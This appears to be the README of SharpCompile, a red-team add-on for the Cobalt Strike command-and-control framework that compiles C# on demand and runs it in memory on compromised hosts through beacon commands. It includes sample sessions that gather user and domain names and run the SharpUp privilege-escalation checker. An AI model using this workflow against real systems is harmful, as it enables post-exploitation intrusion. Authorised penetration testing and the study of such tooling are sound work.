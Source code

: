 # SharpCompile

SharpCompile is an aggressor script for Cobalt Strike which allows you to compile and execute C# in realtime. This is a more slick approach than manually compiling an .NET assembly and loading it into Cobalt Strike. The project aims to make it easier to move away from adhoc PowerShell execution instead creating a temporary assembly and executing using beacon's 'execute-assembly' in seconds.

## Usage

Run server component elevated on a Windows machine (Your builder box) to listen on 0.0.0.0. This web server is intended to only be visible to operator systems (running the Cobalt Strike client) so is unauthenticated. Firewall this off and take advantage of SSL by providing 'cert.cer' alongside the server binary.

```
SharpCompileServer.exe [Optional: Full CSC Path (Default: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe)] [Optional: Port (Default: 80 or 443 if 'cert.cer' present)]
```

Your Cobalt Strike client then tasks the server component to build an assembly when required. This simply requires 'curl' by default so should work out the box on OS X and Linux. You will likely need to tweak the .cna to make it work on Windows calling a 'curl.exe' etc.

Modify the config section at the top of 'SharpCompile.cna' and load into Cobalt Strike. This exposes SharpCompile in the following ways:

*sharp-exec alias:*

```
beacon> sharp-exec Console.WriteLine(String.Format("Username: {0}\nDomain: {1}",Environment.UserName, Environment.UserDomainName));
[*] Tasked beacon to run .NET program: sharpcompile_38692.exe
[+] host called home, sent: 109611 bytes
[+] received output:
Username: Administrator
Domain: EVILCORP
```

*sharp-fexec alias:*

```
beacon> sharp-fexec /root/Tools/SharpCompile/SampleScripts/HelloWorld.cs "Sharp Compile"
[*] Tasked beacon to run .NET program: sharpcompile_51705.exe "Sharp Compile"
[+] host called home, sent: 109129 bytes
[+] received output:
Hello Sharp Compile!
```

*SharpCompile beacon menu:*

Right hand click a beacon:

![SharpCompile Menu](sharpcompile_menu.png)

Select the .cs you want to compile and execute:

![SharpCompile Dialog](sharpcompile_dialog.png)

In the below example we compile [SharpUp](https://github.com/GhostPack/SharpUp) and run it with an 'audit' argument:

```
[*] Tasked beacon to run .NET program: sharpcompile_98542.exe audit
[+] host called home, sent: 133173 bytes
[+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] Already in high integrity, no need to privesc!

[*] Audit mode: running all checks anyway.


=== Modifiable Services ===

---snip---
```

Note: The version of .NET Framework csc.exe you specify for server component matters when compiling code that needs a specific version. This process does not give any feedback on compilation, so if code does not compile you will likely get an error in Cobalt Strike saying invalid assembly.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)
* **Arris Huijgen** - Twitter- [@_bitsadmin](https://twitter.com/_bitsadmin)

## License

SharpCompile

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [uhttpsharp](https://github.com/bonesoul/uhttpsharp) - C# web server package.
* Ryan Cobb [@cobbr_io](https://twitter.com/cobbr_io) - Chatted about this concept.
* [SharpCradle](https://github.com/anthemtotheego/SharpCradle) - This is an awesome project worth checking out, slightly different concept for a slightly different use case, non-Cobalt Strike specific.



